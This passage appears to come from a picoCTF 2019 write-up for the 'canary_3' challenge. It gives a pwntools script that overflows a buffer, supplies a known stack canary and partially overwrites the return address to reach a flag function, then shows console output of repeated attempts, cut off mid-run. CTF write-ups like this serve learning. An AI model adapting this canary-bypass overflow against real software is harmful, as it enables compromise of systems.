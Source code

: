 Now we can code our exploit with our known canary:

```python
#!/usr/bin/env python3

from pwn import *

s = ssh(host = '2019shell1.picoctf.com', user='samson', password='REDACTED')
s.set_working_directory('/problems/canary_3/')
canary = "57Gh"
address_display_flag = 0x565cf7ed
while True:
    p = s.process('./vuln')
    p.sendlineafter('> ', '54') # Size of payload
    payload = "A"*32 + canary + "A"*16 + "\xed\x07"
    p.sendlineafter('> ', payload)
    out = p.recvall()
    print(out)
    if "pico" in str(out):
        print(out)
        break
    p.close()
```

```
samson@pico-2019-shell1:/problems/canary_3$ python ~/p2.py 
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[!] Couldn't check security settings on '2019shell1.picoctf.com'
[*] Working directory: '/problems/canary_3/'
[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174334
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174334)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174341
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174341)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174348
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174348)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174355
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174355)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174362
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174362)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174369
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174369)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174376
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174376)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174384
```